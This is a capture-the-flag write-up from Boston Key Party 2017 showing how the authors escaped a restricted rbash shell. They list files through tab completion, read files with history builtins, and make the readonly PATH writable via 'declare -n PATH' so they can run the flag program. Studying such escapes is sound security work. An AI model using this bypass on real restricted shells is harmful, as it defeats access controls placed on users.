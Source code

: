 ```yaml
---
title: 'Boston Key Party 2017: Solitary Confinement (pwn 99)'
date: 2017-02-27 00:00:00 Z
categories:
- writeup
tags:
- cat/pwn
- tool/rbash
layout: post
author: f0rki
---
```


* **Category:** pwn
* **Points:** 99

## Write-up

We can ssh into a machine that provides us with `rbash` a restricted version of
the `bash` shell. 

```
-rbash-4.3$ pwd
/
```

If we try to `ls` or `pwd` it will fail. It turns out there are no commands
available except for the bash builtins. We can get a list of available commands
by using bash autocompletion.

```
rbash-4.3$ [tab]
!          ]]         builtin    compgen    declare    echo       eval       fc         getopts    in         logout     pwd        readonly   shopt      time       typeset    until
./         alias      caller     complete   dirs       elif       exec       fg         hash       jobs       mapfile    return     source     times      ulimit     wait
:          bg         case       compopt    disown     else       exit       fi         help       kill       popd       rbash      select     suspend    trap       umask      while
[          bind       cd         continue   do         enable     export     for        history    let        printf     read       set        test       true       unalias    {
[[         break      command    coproc     done       esac       false      function   if         local      pushd      readarray  shift      then       type       unset      }
```

Well that's not a lot... So what are we supposed to do? We don't have `ls` so
we need to find another way. Again bash autocompletion to the rescue:

```
-rbash-4.3$ *[tab]
bin    dev    flag   lib    lib64  
-rbash-4.3$ */*[tab]
bin/rbash                   flag/showFlag               lib/x86_64-linux-gnu        lib64/ld-linux-x86-64.so.2  
-rbash-4.3$ */*/*[tab]
lib/x86_64-linux-gnu/libc.so.6
```

This way we get a list of all executable programs. To get a list of files we
can use again the autocompletion for the first argument of a program.

```
-rbash-4.3$ bin/rbash[tab]
.bash_login    .bash_logout   .bash_profile  .bashrc        .profile       bin/           dev/           flag/          lib/           lib64/   
-rbash-4.3$ rbash dev/[tab]
null  zero  
-rbash-4.3$ rbash lib/x86_64-linux-gnu/lib[tab]
libc.so.6      libdl.so.2     libtinfo.so.5  
```

So the goal will be to run the `flag/showFlag` command. Unfortunately `rbash`

* does not allow us to change directories
* does not allow us to use `/` in command names

So next thing is that we tried to read the `showFlag` program. A small trick to
read files using only bash builtins:

```sh
function r() { history -c; export HISTSIZE=0; export HISTSIZE=10000; history -r $1; history; }
```

Unfortunately we didn't have permissions to read the executable. So somehow
need to find a way to bypass the restrictions of `rbash`. A obvious target is
the `PATH` environment variable. Unfortunately `rbash` sets it as readonly:

```
rbash-4.3$ unset -v PATH
rbash: unset: PATH: cannot unset: readonly variable
```

Then we noticed that we can declare the `PATH` variable for example as an
integer or array:

```
-rbash-4.3$ declare -i PATH
-rbash-4.3$ export
...
declare -irx PATH="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games"
```

We tried to declare it as integer with `-i`, as array `-a` and associative
array `-A` and checked whether we could somehow modify `PATH`. This didn't give
results. Then we noticed that `bash` can declare variables as "name references"

```
-rbash-4.3$ help declare
[...]
    -n	make NAME a reference to the variable named by its value
```

We then declared `PATH` as a reference and played around. We noticed that we
can suddenly write to the `PATH` variable:

```
rbash-4.3$ declare -n PATH
rbash-4.3$ export PATH=/flag
rbash-4.3$ export
declare -x /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games="/flag"
declare -x HOME="/home/ctfuser"
declare -x LANG="en_US.UTF-8"
declare -x LOGNAME="ctfuser"
declare -x MAIL="/var/mail/ctfuser"
declare -x OLDPWD
declare -nrx PATH="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games"
declare -x PWD="/"
declare -rx SHELL="/bin/rbash"
declare -x SHLVL="2"
declare -x SSH_CLIENT="129.27.229.25 40454 22"
declare -x SSH_CONNECTION="129.27.229.25 40454 10.0.0.51 22"
declare -x SSH_TTY="/dev/pts/44"
declare -x TERM="xterm-256color"
declare -x USER="ctfuser"
declare -x XDG_RUNTIME_DIR="/run/user/1001"
declare -x XDG_SESSION_ID="618"
rbash-4.3$ echo $PATH
/flag
rbash-4.3$ showFlag
BKP{vimjail_is_down,_fortunately_we_have_rbash_to_save_the_day}
```

Bash is weird...
